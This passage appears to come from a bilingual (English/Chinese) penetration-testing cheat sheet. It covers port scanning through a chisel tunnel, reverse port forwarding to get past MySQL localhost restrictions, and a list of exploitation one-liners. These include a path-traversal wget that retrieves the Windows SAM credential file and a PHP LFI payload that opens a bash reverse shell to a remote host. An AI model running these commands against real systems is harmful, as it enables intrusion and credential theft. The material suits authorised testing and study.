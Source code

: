 ```
naabu -rate 500 -c 10 -s connect -p  -  -host 10.X.X.X -proxy 127.0.0.1:1080
```

Naabu can crash chisel if too many concurrent threads are running, hence the specification of *rate* and *workers*. Naabu is generally much faster than nmap for simple port scans. Anyone who has used `proxychains nmap` knows how **slow** a simple scan can get.

### **Port forward**

If you intend to bypass **localhost** whitelisting (usually for mysql, phpmyadmin, but also sometimes web interfaces), I recommend using port forwarding to local host. For instance, connecting to root with mysql might get the message:

> ERROR 1130 (00000): Host 'X.X.X.X' is not allowed to connect to this MySQL server

```
# Run on your machine, will open port 443
chisel server -p 443 --reverse --socks5
# Open port 3306 on your local machine to proxy packets towards target
chisel client 192.168.119.248:443 R:3306:localhost:3306
```

Then, you can simply use:

```
mysql -u root -p<pass> -h 127.0.0.1
```

# **Part 3: 获取shell**

> searchsploit msfconsole; search google

使用这个，你应该已经找到了一个可以工作的漏洞，现在用 [revshell.com](https://www.revshells.com/)来获取shell，同样可以查看[monkey]([Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))来获取命令!

下面是我发现的一些对利用各种服务有用的命令。

## 常用命令

### **1. 想渗入嵌入HTML标签的二进制数据?**

```
 wget -qO- '<http://X.X.X.X/vulnpage?vulparam=>..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..%5cWINDOWS%5cRepair%5cSAM%00en' |perl -l -0777 -ne 'print $1 if /<title.*?>\\s*(.*?)\\s*<\\/title/si' > SAM
```

### **2. PHP LFI（执行命令）?**

```
data:text/plain,<?php passthru("bash -i >& /dev/tcp/X.X.X.X/4444 0>&1"); ?>
```

### **3. 爆破账号密码?**
